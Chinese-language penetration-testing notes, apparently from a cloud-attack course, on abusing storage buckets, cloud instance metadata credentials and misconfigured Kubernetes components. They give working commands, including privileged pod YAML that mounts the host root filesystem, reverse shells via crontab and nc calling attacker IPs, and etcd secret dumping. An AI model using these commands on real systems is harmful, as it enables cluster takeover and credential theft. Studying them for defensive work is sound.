

对象存储服务--存储桶Bucket
可以关注一下静态文件是不是从其他域名引入的，一般从其他域名引入的就是从存储桶引入的。
还有一种情况是藏在多级目录下，比如/minio/picture/

Bucket 爆破
利用场景：访问时返回
InvalidBucketName原理
存储桶地址：Bucket名称-Bucket地区-云厂商
当存储桶不存在时有两种返回情况，分别是 InvalidBucketName 和 NoSuchBucket
当存储桶存在时只会根据是否可读返回存储桶中的文件
权限控制ACL配置不当
公共读（包含ListObject操作--相当于列目录）
ossx-main爬取链接+wget批量下载公共读写
PUT上传文件Bucket Policy允许公共访问
访问/?acl，获取策略并根据策略进行请求从而访问存储桶Bucket Policy允许修改
使用云厂商工具修改策略中的Deny为Allow即可访问存储桶
域名解析问题
文件解析问题
存储桶只用作存储，访问存储桶中的文件，文件是不解析直接下载的
但如果配置了CNAME记录
my.com → oss.com
oss.com/index.php不解析直接下载
my.com/index.php会解析php
如何确定：ping my.com 解析到oss.com则证明了配置了CNAME记录
Bucket 接管
- 利用场景：访问时返回
NoSuchBucket
类似于子域名接管，只是cname指向的是Bucket

因为域名（源域名）配置了CNAME，但是CNAME指向的域名并没有被注册。那么攻击者可以注册这个CNAME指向的域名，就可以控制了源域名。
因为域名配置了CNAME，但是CNAME指向的Bucket没有被注册（被删除了），那么攻击者可以注册这个CNAME指向的Bucket，从而接管该域名。
参考文章：记一次因为 S3 bucket 删除而导致的子域名接管(subdomain takeover)的安全问题 | Zach Ke's Notes (kebingzao.com)
AK/SK泄露
接管
云服务器
角色访问控制
授权角色可以使用哪些云服务
元数据
元数据服务是一种提供查询运行中的实例内元数据的服务。
通过元数据，攻击者除了可以获得 云服务器 上的一些属性信息之外，有时还可以获得与该实例绑定角色的临时凭证，并通过该临时凭证获得云服务器的控制台权限，进而横向到其他机器。
利用场景
获取目标 云服务器 权限或者目标云服务器 存在 SSRF 漏洞
相关请求
curl http://ip/latest/meta-data // 获取临时凭证要加最后的/ curl http://ip/latest/meta-data/ram/security-credentials/ // 如果配置了访问控制角色将会列出 curl http://ip/latest/meta-data/ram/security-credentials/ecs // 获取ecs角色的临时凭证 // 其他关键信息 /latest/meta-data/mac 实例 MAC 地址 /latest/meta-data/hostname 实例主机名 /latest/meta-data/ram/info 获取角色名称 /latest/meta-data/local-ipv4 实例本地 IP /latest/meta-data/public-ipv4 实例公网 IP /latest/meta-data/instance-id 实例 ID /latest/meta-data/public-hostname 接口的公有 DNS (IPv4) /latest/meta-data/placement/region 实例的区域 /latest/meta-data/public-keys/0/openssh-key 公有密钥 /latest/meta-data/ram/security-credentials/<rolename> 获取角色的临时凭证阿里云为RAM访问控制，AWS为iam访问控制，不同厂商的名称不同，元数据的路径也要替换
k8s--Kubernetes
基本介绍
Kubernetes（简称 k8s）是一个开源的容器管理平台，用于自动化部署、扩展和管理容器化的应用程序。
组件介绍
Scheduler ：调度器，找到能满足 Pod 部署所需硬件资源的Node节点
控制平面（master节点）用于管理node节点
node节点是一台独立的物理机也可以是一个虚拟机，上面运行着pod和其他通信服务，pod实际上就是用docker搭建的服务。
集群（Cluster）= 控制平面（Master节点）+ 多个node节点，pod同时部署在多个node节点上（通过不同的node节点ip都可以访问到pod服务，一个pod服务挂了，其它节点上的仍可以正常使用，就相当于容灾）
部署服务

首先我们需要编写 YAML 文件，在里面定义 Pod 里用到了哪些镜像，占用多少内存和 CPU 等信息。
然后使用 kubectl 命令行工具执行 kubectl apply -f xx.yaml ，此时 kubectl 会读取和解析 YAML 文件，将解析后的对象通过 API 请求发送给 Kubernetes 控制平面内 的 API Server。 API Server 会根据要求，驱使 Scheduler 通过 etcd 提供的数据寻找合适的 Node， Controller Manager 会通过 API Server 控制 Node 创建服务，Node 内部的 kubelet 在收到命令后会开始基于 Container runtime 组件去拉取镜像创建容器，最终完成 Pod 的创建。
外部请求处理
以前外部用户小明，直接在浏览器上发送 http 请求，就能打到我们服务器上的 Nginx，然后转发到部署的服务内。 用了 k8s 之后，外部请求会先到达 k8s 集群的 Ingress 控制器，然后请求会被转发到 k8s 内部的某个 Node 的 Kube Proxy 上，再找到对应的 pod，然后才是转发到内部容器服务中，处理结果原路返回，到这就完成了一次服务调用。
指纹识别
Node节点
| 组件名称 | 默认端口 |
|---|---|
| kubelet | 10250/10255 |
| dashboard | 8001 |
| kube-proxy | 8001 |
| docker | 2375 |
Master节点
| 组件名称 | 默认端口 |
|---|---|
| api server | 6443、8080 |
| dashboard | 8001 |
| etcd | 2379 |
| kube-scheduler | 10251 |
| kube-controller-manager | 10252 |
Dashboard未授权访问
利用场景
配置文件recommended.yaml中开启enable-skip-login，并且给Kubernetes dashboard绑定cluster-admin等角色，攻击者可直接在界面上创建特权pod进行容器逃逸
漏洞利用
点击dashboard右上角的加号创建pod并挂在宿主机的根目录
apiVersion: v1
kind: Pod
metadata:
name: myapp
spec:
containers:
- image: nginx
name: container
volumeMounts:
- mountPath: /mnt
name: test-volume
volumes:
- name: test-volume
hostPath:
path: /
这里将宿主机的目录挂在到了/mnt目录下
可以通过写crontab获取shell
echo -e "* * * * * /bin/bash -i >& /dev/tcp/192.168.0.139/1234 0>&1" >> /mnt/etc/crontab
或者通过chroot来获取终端
K8s configfile 泄露
K8s configfile作为K8s集群的管理凭证，其中包含有关K8s集群的详细信息（API Server、登录凭证）。
如果攻击者能够访问到此文件(如办公网员工机器入侵、泄露到 Github 的代码等)，就可以直接通过 API Server 接管 K8s 集群，带来风险隐患。
用户凭证保存在 kubeconfig 文件中，kubectl 通过以下顺序来找到 kubeconfig 文件：
- 如果提供了--kubeconfig参数，就使用提供的 kubeconfig 文件。
- 如果没有提供--kubeconfig 参数，但设置了环境变量 $KUBECONFIG，则使用该环境变量提供的 kubeconfig 文件。
- 如果以上两种情况都没有，kubectl 就使用默认的 kubeconfig 文件 $HOME/.kube/config。
漏洞利用
通过Dashboard的配置文件方式登录
使用kubectl
# 连接 kubectl -s https://ip:6443 --kubeconfig=config1 -insecure-skip-tls-verify=true get nodes # 创建恶意pod kubectl apply -f test.yaml -n default --kubeconfig=config1 --insecure-skip-tls-verify=true #连接 pod 后进行容器挂载逃逸 kubectl exec -it myapp bash -n default --kubeconfig=config1 cd /mnt chroot . bash# test.yaml apiVersion: v1 kind: Pod metadata: name: myapp spec: containers: - image: nginx name: myapp volumeMounts: - mountPath: /mnt name: test-volume volumes: - name: test-volume hostPath: path: /
Master节点攻击
API Server 未授权访问
利用场景
旧版本的k8s的API Server默认会开启两个端口：8080和6443。 6443是安全端口，安全端口使用TLS加密；8080端口无需认证http访问，仅用于测试。高版本的k8s已经默认不开启8080端口
8080端口--k8s<1.16.0
新版本需要修改配置文件 /etc/kubernetes/manifests/kube-apiserver.yaml 默认端口8080，修改标识–insecure-port 默认IP是本地主机，修改标识—insecure-bind-address6443端口
鉴权配置不当，将"system:anonymous"用户绑定到"cluster-admin"用户组，从而使 6443端口允许匿名用户以管理员权限向集群内部下发指令。
kubectl-proxy不安全配置
对方运维使用命令kubectl proxy设置API server接收所有主机的请求
# 相当于8009端口API Server未授权访问 kubectl --insecure-skip-tls-verify proxy --accept-hosts=^.*$ --address=0.0.0.0 --port=8009
漏洞存在时
漏洞利用
通过kubectl命令攻击
# 查询nodes和pods
kubectl -s http://ip:6443/ get nodes
kubectl -s http://ip:6443/ get pods
kubectl -s ip:6443 get pod -n [node]
# 创建恶意pods
kubectl -s http://ip:6443/ create -f test.yaml
test.yaml
apiVersion: v1
kind: Pod
metadata:
name: test
spec:
containers:
- name: busybox
image: busybox:1.29.2
command: ["/bin/sh"]
args: ["-c", "nc 192.168.125.130 7777 -e /bin/sh"]
volumeMounts:
- name: host
mountPath: /host
volumes:
- name: host
hostPath:
path: /
type: Directory
获得pod的shell
kubectl -s http://ip:6443/ get namespaces
kubectl exec -it <pod-name> -n <namespace> bash
通过http请求攻击
#查看pods
https://192.168.4.110:6443/api/v1/namespaces/default/pods?limit=500
#创建特权容器
https://192.168.4.110:6443/api/v1/namespaces/default/pods/test-4444
{"apiVersion":"v1","kind":"Pod","metadata":{"annotations":{"kubectl.kubernetes.io/last-applied-configuration":"{\"apiVersion\":\"v1\",\"kind\":\"Pod\",\"metadata\":{\"annotations\":{},\"name\":\"test-4444\",\"namespace\":\"default\"},\"spec\":{\"containers\":[{\"image\":\"nginx:1.14.2\",\"name\":\"test-4444\",\"volumeMounts\":[{\"mountPath\":\"/host\",\"name\":\"host\"}]}],\"volumes\":[{\"hostPath\":{\"path\":\"/\",\"type\":\"Directory\"},\"name\":\"host\"}]}}\n"},"name":"test-4444","namespace":"default"},"spec":{"containers":[{"image":"nginx:1.14.2","name":"test-4444","volumeMounts":[{"mountPath":"/host","name":"host"}]}],"volumes":[{"hostPath":{"path":"/","type":"Directory"},"name":"host"}]}}
#执行命令
https://192.168.4.110:6443/api/v1/namespace/default/pods/test-4444/exec?command=whoami
# 获取token
/api/v1/namespaces/kube-system/secrets/
etcd未授权访问
利用场景
配置文件： /etc/kubernetes/manifests/etcd.yaml
etcd服务有V2和V3两个版本
k8s默认配置下etcd服务只会监听本地的2379端口
- 没有配置--client-cert-auth 参数（无证书校验），外部可以直接未授权访问获取secrets和token来接管API Server
- 配置--client-cert-auth 参数（有证书校验），本地127.0.0.1:2379可免认证访问Etcd服务，但通过其他地址访问要携带cert进行认证访问，一般配合ssrf或其他利用，较为鸡肋。
漏洞利用
访问
http://ip:2379/v2/keys/?recursive=true
V2版本返回所有的key-value值
V3版本返回如下
需要使用工具：https://etcd.io/docs/v3.4/install/
# 获取k8s的secrets
./etcdctl --endpoints=https://ip:2379 get / --prefix --keys-only | grep sceret
# 获取用户指定token
./etcdctl --endpoints=https://ip:2379 get /registry/secrets/xxxx/xxx
./etcdctl --endpoints=https://ip:2379 get /registry/secrets/kube-system/xxx
# 通过token接管
kubectl --insecure-skip-tls-verify-s https://ip:6443 --token="ey..." -n kube-system get pods
污点横向移动
基本原理
通过外网获得了一个pod权限，此时我们的目标就是获得Master节点的宿主机权限，那我们应该怎么做呢？
可以想到获得Master节点的pod权限，再通过逃逸或者挂载获得Master节点的宿主机权限，那么就是需要部署一个恶意pod到Master节点上。
如何获得部署一个恶意pod的权限呢？
Api Server/etcd未授权访问
不同Node节点上的pod服务中的ServiceAccount 权限
# 确认当前默认 service-account权限 ./kubectl auth can-i --list
信息收集得到config配置文件
假设已经获得部署一个恶意pod的权限，还有一个问题就是默认pod是不会被部署到Master节点上的，这是因为Master节点具有污点属性，只有具备对应容忍度的pod才可以被部署到Master节点，解决方法就是清除Master节点的污点或者部署pod时加上对应容忍度属性
横向移动
以下为在pod服务的webshell上进行Api Server未授权访问操作
部署pod时加上对应容忍度属性
# --username=a --password=a 因为webshell不是交互式终端，不加的话会让你输入用户名这样是行不通的
./kubectl --server=https://10.96.0.1:443 --insecure-skip-tls-verify=true --username=a --password=a
# 获取pod的污点信息
./kubectl --server=https://10.96.0.1:443 --insecure-skip-tls-verify=true --username=a --password=a describe nodes | grep Taints
# 部署pod到Master节点，可能需要修改容器名字多尝试几次,调度问题？
./kubectl --server=https://10.96.0.1:443 --insecure-skip-tls-verify=true --username=a --password=a create -f ./x.yaml
# 获取pod信息以及pod部署到哪个节点 get pods -o wide
./kubectl --server=https://10.96.0.1:443 --insecure-skip-tls-verify=true --username=a --password=a get pods -o wide
# 反弹shell获取Master节点的宿主机权限
./kubectl --server=https://10.96.0.1:443 --insecure-skip-tls-verify=true --username=a --password=a exec control-master-x231 -- bash -c "echo -e '* * * * * root bash -i >& /dev/tcp/192.168.86.218/6677 0>&1\\n' >> /master/etc/crontab"
x.yaml
cat > x.yaml << EOF
apiVersion: v1
kind: Pod
metadata:
name: control-master-x
spec:
tolerations:
- key: "node-role.kubernetes.io/master" # 污点名字
operator: "Exists"
effect: "NoSchedule"
containers:
- name: control-master-x # 容器名字
image: ubuntu:18.04
command: ["/bin/sleep", "3650d"]
volumeMounts:
- name: master
mountPath: /master #
volumes:
- name: master
hostPath:
path: /
type: Directory
EOF
nodeName 是 Pod 的一个字段，用于直接指定 Pod 要运行的节点。
apiVersion: v1
kind: Pod
metadata:
name: my-pod
spec:
containers:
- name: my-container
image: nginx
nodeName: node-name # 替换为目标节点的名称
清除Master节点的污点？
执行以下命令清除污点之后直接执行部署Pod到Master上，之后通过挂载实现逃逸获取Master节点的权限
#清除污点
kubectl taint nodes debian node-role.kubernetes.io/master:NoSchedule-
#查看污点
kubectl describe node master | grep 'Taints' -A 5
工具
https://github.com/yeahx/KubeAPI-Inspector/blob/main/README_zh.md
https://github.com/cdk-team/CDK
参考文章
https://www.bilibili.com/video/BV12om2YTEgW/?spm_id_from=333.788.player.switch&vd_source=09b7dbe7a7fc964ca09096bdd79f031d&p=102 | 第98天：云上攻防-云原生篇&K8s安全&Config泄漏&Etcd存储&Dashboard鉴权&Proxy暴露_哔哩哔哩_bilibili https://mp.weixin.qq.com/s/yQoqozJgP8F-ad24xgzIPw | mp.weixin.qq.com/s/yQoqozJgP8F-ad24xgzIPw https://mp.weixin.qq.com/s/QEuQa0KVwykrMzOPdgEHMQ | mp.weixin.qq.com/s/QEuQa0KVwykrMzOPdgEHMQ https://forum.butian.net/share/1095 | 奇安信攻防社区-云原生之Kubernetes安全 https://wiki.teamssix.com/CloudNative/Kubernetes/k8s-horizontal-taints.html | https://kubernetes.io/zh-cn/docs/concepts/scheduling-eviction/assign-pod-node/ | 将 Pod 指派给节点 | Kubernetes https://golangguide.top/%E6%9E%B6%E6%9E%84/%E4%BA%91%E5%8E%9F%E7%94%9F/%E6%A0%B8%E5%BF%83%E7%9F%A5%E8%AF%86%E7%82%B9/k8s%E5%88%B0%E5%BA%95%E6%98%AF%E4%BB%80%E4%B9%88.html#%E6%80%8E%E4%B9%88%E8%B0%83%E7%94%A8%E6%9C%8D%E5%8A%A1 | golangguide.top/架构/云原生/核心知识点/k8s到底是什么.html#怎么调用服务 https://stack.chaitin.com/techblog/detail/218 | CT Stack 安全社区 https://github.com/sule01u/AutorizePro?tab=readme-ov-file | github.com/sule01u/AutorizePro?tab=readme-ov-file